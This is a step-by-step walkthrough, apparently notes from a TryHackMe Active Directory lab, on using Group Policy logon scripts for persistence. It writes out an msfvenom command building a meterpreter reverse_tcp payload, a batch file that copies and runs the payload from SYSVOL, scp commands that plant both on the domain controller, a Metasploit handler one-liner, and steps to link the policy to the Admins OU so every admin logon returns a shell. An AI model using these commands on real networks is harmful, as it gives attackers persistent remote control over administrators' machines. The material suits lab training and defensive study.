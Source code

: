 The following are some common GPO persistence techniques:

1-Restricted Group Membership - This could allow us administrative access to all hosts in the domain
2-Logon Script Deployment - This will ensure that we get a shell callback every time a user authenticates to a host in the domain. <br>

Since we already used the first hook, Restricted Group Membership. Let's now focus on the second hook.

**Preparation**

Before we can create the GPO. We first need to create our shell:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<the receiver ip> lport=9876 -f exe > shell.exe
```
Another file should be created called ```script.bat```:
```
copy \\domainname\sysvol\domain\scripts\shell.exe C:\tmp\shell.exe && timeout /t 20 && C:\tmp\shell.exe
```
You will see that the script executes three commands chained together with &&. The script will copy the binary from the SYSVOL directory to the local machine, then wait 20 seconds, before finally executing the binary.
> note

When using a Group Policy Object (GPO) to perform logon scripts in an Active Directory (AD) environment, the scripts are stored and accessed through the SYSVOL share. The network share path where these scripts are typically located is:
Path for Scripts in SYSVOL: ```\\domainname\SYSVOL\domain\scripts```

Now we need to move these files to the target machine(**tryhackme** cuz we have the admin creds, for example):
```
scp shell.exe Administrator@thmdc.za.tryhackme.loc:/C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
scp script.bat Administrator@thmdc.za.tryhackme.loc:/C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
```

Finally, let's start our MSF listener:
```
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST <the receiver ip>; set LPORT 9876;exploit"
```
With our prep now complete, we can finally create the GPO that will execute it.

**GPO Creation**

> this action need administative access

The first step uses our Domain Admin account to open the Group Policy Management snap-in:

    In your ****runas-spawned**** terminal, type MMC and press enter.
    Click on File->Add/Remove Snap-in...
    Select the Group Policy Management snap-in and click Add
    Click OK
We will write a GPO that will be applied to all Admins, so right-click on the Admins OU and select Create a GPO in this domain, and Link it here. Give your GPO a name, then Right-click on your policy and select Enforced.
> the goal here is when any admin in the AD env make a logon action we should receive reverse connection.

Let's get back to our Group Policy Management Editor:

    Under User Configuration, expand Policies->Windows Settings.
    Select Scripts (Logon/Logoff).
    Right-click on Logon->Properties
    Select the Scripts tab.
    Click Add->Browse.
now navigate to where we stored our Batch and binary files, Select your Batch file as the script and click Open and OK. Click Apply and OK. This will now ensure that every time one of the administrators logs into any machine, we will get a callback.
<br>
Finally we get the meterpreter session.














